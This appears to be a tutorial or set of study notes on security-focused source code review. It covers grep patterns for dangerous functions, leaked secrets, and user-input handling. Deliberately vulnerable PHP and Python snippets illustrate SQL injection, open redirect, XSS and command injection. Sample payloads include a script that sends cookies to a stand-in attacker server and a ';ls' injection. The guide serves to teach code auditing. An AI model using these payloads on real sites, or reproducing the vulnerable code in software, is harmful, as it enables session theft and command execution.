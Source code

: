 Remember that, most of the time, you don’t have to be a master programmer to conduct a code review in a particular language, As long as you understand one programming language, you can apply your intuition to review a wide variety of software written in different languages. 
But understanding the target’s particular language and architecture will allow you to spot more nuanced bugs.
# The Fast Approach: grep Is Your Best Friend
These techniques are speedy and often lead to the discovery of some of the most severe vulnerabilities, but they tend to leave out the more subtle bugs.
## Dangerous Patterns
Using the grep command, look for specific functions, strings, keywords, and coding patterns that are known to be dangerous
The presence of these functions does not guarantee a vulnerability, but can alert you to possible vulnerabilities

| Language   | Function                                                                                                        | Possible vulnerability                                                                                                                                                                                                                                                                                    |
| ---------- | --------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| PHP        | eval(), assert(), system(), exec(), shell_exec(), passthru(), popen(), backticks (`CODE`), include(), require() | RCE if used on unsanitized user input. eval() and assert() execute PHP code in its input, while system(), exec(), shell_exec(), passthru(), popen(), and backticks execute system commands. include() and require() can be used to execute PHP code by feeding the function a URL to a remote PHP script. |
| PHP        | unserialize()                                                                                                   | Insecure deserialization if used on unsanitized user input.                                                                                                                                                                                                                                               |
| Python     | eval(), exec(), os.system()                                                                                     | RCE if used on unsanitized user input.                                                                                                                                                                                                                                                                    |
| Python     | pickle.loads(), yaml.load()                                                                                     | Insecure deserialization if used on unsanitized user input.                                                                                                                                                                                                                                               |
| JavaScript | document.write(), document.writeln                                                                              | XSS if used on unsanitized user input. These functions write to the HTML document. So if attackers can control the value passed into it on a victim’s page, the attacker can write JavaScript onto a victim’s page.                                                                                     |
| JavaScript | document.location.href()                                                                                        | Open redirect when used on unsanitized user input. document.location.href() changes the location of the user’s page.                                                                                                                                                                                      |
| Ruby       | System(), exec(), %x(), backticks (`CODE`)                                                                      | RCE if used on unsanitized user input.                                                                                                                                                                                                                                                                    |
| Ruby       | Marshall.load(), yaml.load()                                                                                    | Insecure deserialization if used on unsanitized user input                                                                                                                                                                                                                                               |

## Leaked Secrets and Weak Encryption
- look for these issues by grepping for keywords such as (**key, secret, password, encrypt, API, login, or token**)
- Grep the names of weak algorithms like **ECB, MD4, and MD5**
- Grep for specific code import functions in the language you are using with keywords like import, require, and dependencies and search for any CVE's for them in [CVE database](https://cve.mitre.org/) 
- The process of scanning an application for vulnerable dependencies is called software composition analysis (SCA). [The OWASP Dependency-Check tool](https://owasp.org/www-project-dependency-check/)
- Look for new patches
- search for developer comments by search for comments chars (`#, //`) and terms like (todo, fix, completed, config, setup, and removed) in source code
- Search for **Debug Functionalities, Configuration Files, and Endpoints**
	- Hidden debug functionalities often lead to privilege escalation, You can often find them at special endpoints
	- search for strings like HTTP, HTTPS, FTP, and dev you might find a URL like this somewhere in the code that points you to an admin panel: `http://dev.example.com/admin?debug=1&password=password` 
	- Configuration files often have the file extensions (**.conf, .env, .cnf, .cfg, .cf, .ini, .sys, or .plist**)
	- characters that indicate URLs like HTTP, HTTPS, slashes (/), URL parameter markers (?), file extensions (.php, .html, .js, .json), and so on.

# The Detailed Approach
Instead of reading the entire codebase line by line, try these strategies to maximize your efficiency
## Important Functions
- focus on important functions, such as authentication, password reset, state-changing actions, and sensitive info reads 
```python
# vulnerable login func example 
# u can exploit it using admin'--
def login():
 query = "SELECT * FROM users WHERE username = '" + \
 request.username + "' AND password = '" + \
 request.password + "';"
 authed_user = database_call(query)
 login_as(authed_user)
```
- carefully read the code that processes **user input**
	- entry points for attackers such as HTTP params, HTTP headers, HTTP request paths, database entries, file reads, and file uploads
	- Analyze carefully and test for injections attacks (XSS, XXE, SQLI, RCE, Open Redirects)
```php
<?php
/*open redirect code snippest example
 can be exploited with attacker.com/example.com, or example.com.attacker.com*/
[...]
if ($logged_in){
 $redirect_url = $_GET['next'];
if preg_match("/example.com/", $redirect_url){
 header("Location: ". $redirect_url);
 exit;
 }
}
[...]
?>
```

```php
<?php
/*RXSS & Command Injection vulnerable code example*/
 [...]
 $url_path = parse_url($_GET['download_file'], PHP_URL_PATH);
 $command = 'wget -o stdout https://example.com' . $url_path;
 system($command, $output);
 echo "<h1> You requested the page:" . $url_path . "</h1>";
 echo $output; 
 [...]
?>
```
- we can exploit the XSS using `https://example.com/<script>document.location='http://attacker_server_ip/cookie_stealer.php?c='+document.cookie;</script>`
- Command injection with something like this 
  `https://example.com/download?download_file=https://example.com/download;ls`
